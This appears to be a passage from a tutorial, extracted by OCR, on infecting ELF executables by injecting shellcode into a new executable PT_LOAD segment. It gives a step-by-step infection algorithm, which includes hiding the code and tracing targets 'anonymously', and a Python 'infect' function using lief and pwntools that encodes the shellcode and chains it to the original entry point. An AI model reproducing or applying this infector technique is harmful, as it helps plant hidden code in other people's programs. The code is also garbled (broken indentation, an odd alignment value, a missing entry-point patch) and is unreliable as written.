 This header is one of the most important header type. It defines how a portion of the file must be placed in the memory. This will be a good choice to infect the pt_load header type to inject the our malicious code.

You also need to understand the attributes of this header type. We are interested in:

p_filesz = the size of the segment in the file

p_memsz = this size of the segment in the memory

p_flags = the permission flags (x,r,e)



Let's create our algorithm to create our shellcode to be injected.

## Algorithm of pt_load injection 

We will use two powerful libraries:

- lief
- pwntools 

You can check these libraries in your free time.


1. We need to parse the file to get into the entrypoint.

2. When this step is done, we shall create a new load segment

3. After creating; u can create your shellcode into that new segment

4. after injecting; do not forget to patch the binary. 

5. In order to trace the target, you can add the old entry point to the malicious to be hidden (your choice) but tracing 
anonymously will be useful.

6. when the fifth is done, save the binary as output.




## Creating the devil code


```python 

def infect(file, output):
    prGreen("[+] It has been infected")
    payload   = "dangerous is coming\n"
    evilfile  = lief.parse(file)
    devilcode = asm("mov esi, edx")   # edx will stored to the esi (file)
    devilcode += asm(pwnlib.shellcraft.i386.write(1, payload, len(payload)))
    devilcode =  pwnlib.encoders.encoder.scramble(devilcode) 
    hex_ = hex(evilfile.header.entrypoint)
    devilcode += asm(f"mov esi, edx; push {hex_}; ret")
    print("devilcode size : " ,len(devilcode))
		print(f"payload {devilcode}")                   
    # ------------------------------------------------------------------------------------------
    
    segment = lief.ELF.Segment() 
    segment.type =  lief.ELF.SEGMENT_TYPES.LOAD 
    segment.flags = lief.ELF.SEGMENT_FLAGS.X                        
    segment.content = bytearray(devilcode)                          
    segment.alignment = 0x1234                                     #segment alignment in memory.
    evilfile.add(segment)


```
